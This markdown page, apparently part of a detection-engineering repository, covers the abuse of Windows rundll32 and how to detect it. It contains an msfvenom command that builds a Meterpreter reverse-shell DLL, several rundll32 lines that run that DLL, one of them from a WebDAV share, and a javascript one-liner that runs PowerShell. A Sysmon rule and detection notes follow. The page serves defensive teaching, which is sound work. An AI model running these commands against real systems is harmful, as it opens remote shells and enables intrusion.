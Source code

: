 ## Rundll32

Rundll32 is a legitimate executable in windows that is cable to run 32bit DLLS

Run only 32-bit DLLs

to create DLL from MSF venom

```powershell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IP] LPORT=[Port] -f dll -o evil.dll
```

then run the dll using one of the following commands

```powershell
rundll32 \\webdavserver\evil.dll,entrypoint
```

```powershell
rundll32 C:\evil.dll,EntryPoint
```

```powershell
rundll32 shell32.dll,Control_RunDLL C:\evil.dll
```


Also can run JavaScript that execute PowerShell
```powershell
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";new%20ActiveXObject("WScript.Shell").Run("powershell  -c new-item c:\\users\\noname\\desktop\\testrund.txt",0);window.close();

```


### Detection

- sysmon

  - Process Create

    - Rundll32 process creation with cmd as parent process

  - Module Loading

    - Rundll32 load module like ws2_32.dll

  - Network Connection

    - from rundll32 process

      

![Mermaid](https://raw.githubusercontent.com/karemfaisal/SMUC---Simplified-Mitre-Use-Cases/master/WSH/Misc/Mermaid.svg)



**Sysmon Rule** 

```xml
<Sysmon schemaversion="4.00">
<HashAlgorithms>md5,sha256,IMPHASH</HashAlgorithms>
  <EventFiltering>
		<ProcessCreate onmatch="include">
			<Image condition="contains">Rundll32.exe</Image>
		</ProcessCreate>
		
		<NetworkConnection>
			<Image condition="contains">Rundll32.exe</Image>
		</NetworkConnection>
      
		<ImageLoad onmatch="include"> 
			<ImageLoaded condition="contains">ws2_32.dll</ImageLoaded>
		</ImageLoad>
		
		
	</EventFiltering>
</Sysmon>
```

*this rule is just for demonstration, you shouldn't include on process create and Network connection  etc* 

